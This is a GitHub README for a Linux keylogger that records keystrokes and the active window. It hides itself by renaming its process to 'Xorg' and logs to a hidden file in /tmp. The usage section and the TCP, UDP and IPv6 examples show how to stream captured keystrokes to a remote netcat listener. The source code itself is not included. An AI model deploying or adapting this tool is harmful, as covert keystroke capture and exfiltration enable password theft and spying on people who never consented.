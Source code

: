 # Simple_Local&Remote_Keylogger<br>

###DESCRIPTION:

	*Simple keylogger that runs on Linux either locally or remotely.
	*It shows the active window on which the target is writing.
	*Keys are mapped on US keyboard.
	*It shows the keyboard layout(e.g.: us, it, colemak, etc..).
	*Process name is renamed as "Xorg".
	*It works with both TCP and UDP and with ipv6 too.
	*It must be run as root.

```
Usage: #./slrk [OPTIONS]
```

###OPTIONS:
	-d <input-device>:			If not specified, the default device is '/dev/input/by-path/***kbd'
	-o <output-file>:			It can be used only if '-m remote' option is not specified. The default output file is '/tmp/.logger.txt'
	-m remote -a <IP-ADDR> -p <PORT>:	It sends all the keystrokes on the remote server located at <IP-ADDR:PORT>

###EXAMPLE:

	[TCP]
	```
	Server$ nc -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[UDP]
	```
	Server$ nc -u -lvp 8888 > logger.txt
	Client#./slrk -m remote -a 127.0.0.1 -p 8888
	```

	[IPv6]
	```
	Server$ nc -6 -lvp 8888 > logger.txt
	Client#./slrk -m remote -a ::1 -p 8888
	```
